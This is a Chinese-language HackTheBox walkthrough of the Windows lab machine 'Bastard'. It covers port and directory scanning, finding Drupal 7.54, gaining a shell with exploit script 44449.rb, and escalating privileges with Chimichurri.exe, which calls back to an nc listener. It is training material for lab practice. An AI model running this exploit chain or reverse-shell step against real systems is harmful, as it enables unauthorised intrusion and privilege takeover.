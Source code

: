 # Bastard

- **Bastard是hackthebox上一台难度中等的windows靶机**

### 信息收集

- nmap进行端口扫描，首先扫描前100个容易受到攻击的端口

![0.9](https://mxrblog.cn/p/w/bastard/0.9.png)

- nmap进行更细致的扫描

![1](https://mxrblog.cn/p/w/bastard/1.png)

- nmap扫描是否存在漏洞

![2](https://mxrblog.cn/p/w/bastard/2.png)

- 至此，nmap向我们反馈了有用的信息：

```
80 http
135 msrpc
49154 open unknow
```

- 登录80端口，查看网页信息

![0.1](https://mxrblog.cn/p/w/bastard/0.1.png)

- 我们从网页底部可以知道这个CMS是drupal系统，但是我们不知道他的具体版本
- 接下来使用dirsearch进行目录扫描，我尝试使用gobuster 进行扫描，但是结果并能使人满意，可能这次并不适用于用gobuster扫描，有时候最好同时使用这两个工具进行扫描，并且更换不同的字典然后进行多次扫描，可能会费时费力，但是收集有用的信息对我们来说是非常重要的

``` 
dirsearch -u http://10.129.189.21 -x 403 -t 200
```

![0.15](https://mxrblog.cn/p/w/bastard/0.15.png)

- 我们发现了许多文件，其中CHAGELOG.txt文件中有这CMS的版本信息，我们可以查看到

![0.2](https://mxrblog.cn/p/w/bastard/0.2.png)

- 当然，我也参考了别人的walkthrough，他们扫描出了/rest 文件夹，我试着使用它们的字典以及工具进行扫描，扫描时间实在太长，而且我们完全可以不使用 /rest 文件就能达到我们的渗透目的
- 接下来使用searchsploit 对 drupal 7.54 版本进行扫描

![3.9](https://mxrblog.cn/p/w/bastard/3.9.png)



### 漏洞利用

- 使用 44449.rb 脚本

![4](https://mxrblog.cn/p/w/bastard/4.png)

![5](https://mxrblog.cn/p/w/bastard/5.png)

![4.5](https://mxrblog.cn/p/w/bastard/4.5.png)

- 我们得到了一个shell，这是我在参考了许多walkthrough后得到的最快捷的方式

- 查看系统信息

![6](https://mxrblog.cn/p/w/bastard/6.png)



### 权限提升

- 下载使用[Chimichurri](https://github.com/mxrmiss/Chimichurri)脚本

![7](https://mxrblog.cn/p/w/bastard/7.png)

- 在windows靶机中接收脚本文件

![8](https://mxrblog.cn/p/w/bastard/8.png)

- 本地机器nc监听端口
- 靶机上使用脚本文件

```
chimichurri.exe ip port
```

- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

![9](https://mxrblog.cn/p/w/bastard/9.png)

- 结束